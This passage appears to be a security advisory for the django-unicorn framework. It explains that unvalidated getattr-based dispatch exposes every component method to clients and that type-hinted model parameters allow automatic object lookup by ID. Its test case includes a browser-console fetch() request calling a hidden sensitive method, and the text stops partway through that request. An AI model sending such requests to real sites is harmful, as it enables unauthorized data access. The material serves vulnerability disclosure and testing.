 The flow is:
1. The framework extracts the method name from the request
2. It verifies the method exists using `hasattr(component, method_name)`
3. It uses `getattr(component, method_name)` to get the method
4. It calls the method without any verification that the method was meant to be exposed

Another concerning aspect is that when a method has a parameter with a Django model type hint, the framework automatically fetches the object with the provided ID using `DbModel.objects.get(pk=value)`. This could potentially allow an attacker to access database objects they shouldn't have permission to view.

**Security Test Case:**
1. Create a component with both intended public methods and sensitive methods:

```python
# sensitive_component.py
from django_unicorn.components import UnicornView

class SensitiveComponentView(UnicornView):
    access_count = 0

    def public_method(self):
        # This method is meant to be called via the UI
        return "Public method called"

    def delete_all_data(self):
        # This method performs a sensitive operation but isn't exposed in the UI
        return "All data deleted"

    def get_sensitive_data(self):
        # This method returns sensitive information but isn't exposed in the UI
        self.access_count += 1
        return "SSN: 123-45-6789, Credit Card: 4111-1111-1111-1111"
```

2. Create a template that only exposes the public method:

```html
<!-- sensitive-component.html -->
<div>
  <button unicorn:click="public_method">Call Public Method</button>
</div>
```

3. An attacker can craft a request to directly call the sensitive methods:

```javascript
// Perform this in the browser console on a page that includes the component
fetch('/unicorn/message/app.components.sensitive_component.SensitiveComponentView', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'X-CSRFToken': document.querySelector('[name=csrfmiddlewaretoken]').value,
  },
  body: JSON.stringify({
    id: 'sensitive-component',
    actionQueue: [
      {
        type: 'callMethod',
        payload: {
          name: 'get_sensitive_data',
          args: []
        }
      }
    ],
    data: {},
    checksum: '...',  // Valid checksum would be needed
    epoch: Date.now()
```